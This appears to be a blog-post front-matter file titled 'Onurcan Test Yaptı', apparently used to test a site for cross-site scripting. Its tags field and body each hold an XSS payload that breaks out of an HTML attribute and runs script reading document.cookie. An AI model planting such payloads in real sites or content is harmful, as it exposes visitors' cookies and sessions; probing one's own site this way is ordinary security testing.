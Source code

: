 ```yaml
---
title: Onurcan Test Yaptı
date: 2025-08-06T16:28:00.000+03:00
description: Onurcan Test Yaptı
thumbnail: /uploads/1721734492532.jpeg
tags:
  - '"><img src=x onerror=alert(document.cookie)>'
---
```

"><img src=x onerror=alert(document.cookie)>
